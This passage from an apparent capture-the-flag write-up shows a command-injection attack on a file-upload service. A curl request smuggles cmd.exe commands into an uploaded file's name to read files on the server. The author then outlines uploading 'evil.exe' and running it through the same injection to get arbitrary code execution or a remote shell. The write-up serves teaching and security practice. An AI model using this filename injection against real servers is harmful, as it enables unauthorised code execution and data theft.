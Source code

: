 ```  
11/07/2007  08:03 AM            81,424 install.res.1041.dll  
11/07/2007  08:03 AM            79,888 install.res.1042.dll  
11/07/2007  08:03 AM            75,792 install.res.2052.dll  
11/07/2007  08:03 AM            96,272 install.res.3082.dll  
09/15/2018  07:19 AM    <DIR>          PerfLogs  
09/25/2019  12:52 PM    <DIR>          Program Files  
09/25/2019  12:52 PM    <DIR>          Program Files (x86)  
09/25/2019  12:49 PM    <DIR>          Python37  
10/05/2019  10:03 AM    <DIR>          upload  
09/25/2019  12:55 PM    <DIR>          Users  
11/07/2007  08:00 AM             5,686 vcredist.bmp  
11/07/2007  08:09 AM         1,442,522 VC_RED.cab  
11/07/2007  08:12 AM           232,960 VC_RED.MSI  
09/25/2019  12:49 PM    <DIR>          Windows  
09/25/2019  02:15 PM                41  F!ag#$%&'()+,-.;=@[]^_`{}~  
             25 File(s)      3,169,888 bytes  
              9 Dir(s)  18,757,046,272 bytes free  
```

Oh, and here is the file containing our flag, by the way.

Now we just need to `cat` it. This should be easy, right? No, nothing in  
Windows is easy! Actually, we already can easily read files with "convenient"  
file names:

```  
$ curl -F 'file=@dicom_jpeg;filename=x&cd..&cd..&type=eula.1041.txt&x'
'http://silhouettes.balsnctf.com/'  
$dcmtk: dcmdjpeg v3.6.4 2018-11-29 $  
...  
VC Redist EULA - JPN RTM

Unicode

??????????? ???????  
```

But our real target is ``` F!ag#$%&'()+,-.;=@[]^_`{}~```, which contains all  
characters that we are not able to use in our command.

I started to looking at documentation about how to use wildcards and globbing  
in `cmd.exe`, but quickly realized that this is most probably impossible to  
implement given the restriction on characters in the file name (`?` and `*` in  
particular).

This slowed me down a bit. But, quickly after, I remembered that we are able
to  
upload files with any contents into known directory with known name onto the  
server. And thus, we may upload some `evil.exe` and send command like  
`cd..&cd..&cd=upload&evil.exe`, which gives the ability to execute arbitrary  
code on the server, even remote shell.

This looked like a final step to reading the flag, but before writing any
code,  
I decided to quickly check that there are no more obstacles on my way:
